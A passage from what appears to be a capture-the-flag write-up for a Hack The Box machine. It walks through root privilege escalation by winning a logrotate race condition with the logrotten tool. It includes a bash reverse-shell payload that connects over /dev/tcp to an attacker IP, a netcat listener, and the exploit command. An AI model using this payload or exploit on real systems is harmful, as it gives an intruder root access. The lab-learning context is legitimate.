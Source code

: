 But the logrotate exploitation is more interesting (reference about log files presents in home reader).

![Desktop View]({{ "/assets/img/book/HTB-Images-Book-logrotate-exploitation.png" | relative_url }})

pspy tool confirm this trough the execution of `logrotate` tool under root privilege.

![Desktop View]({{ "/assets/img/book/HTB-Images-Book-pspy.png" | relative_url }})


We can winning a race condition in logrotate to elevate privileges.

References - logrotate exploitation :
* <https://github.com/whotwagner/logrotten>
* <https://medium.com/@ashishrohra/race-condition-exaplained-for-dummies-10c54a265192>
* <https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition>
* <https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/>

#### 1 - Requirement

* Logrotate has to be executed as root --> Yes, pspy verify this.
* The logpath needs to be in control of the attacker --> Yes, linpeas verify this
* Any option that creates files is set in the logrotate configuration --> Yes

#### 2 - Compile logrotten

From target machine :

```terminal
reader@book:/tmp$ gcc -o logrotten logrotten.c
```

#### 3 - Prepare payload

```terminal
reader@book:/tmp$ nano payload

bash -i >& /dev/tcp/10.10.14.223/1234 0>&1
```

#### 4 - Listen and wait root shell redirection

From attacking machine :

```terminal
$ nc -lvp 1234
```

#### 5 - Exploit

To trigger the rotation of the log, we write before in access.log.

```terminal
reader@book:/tmp$ echo exploit /home/reader/backups/access.log && ./logrotten -d -p ./payload /home/reader/backups/access.log
```
![Desktop View]({{ "/assets/img/book/HTB-Images-Book-exploit.png" | relative_url }})
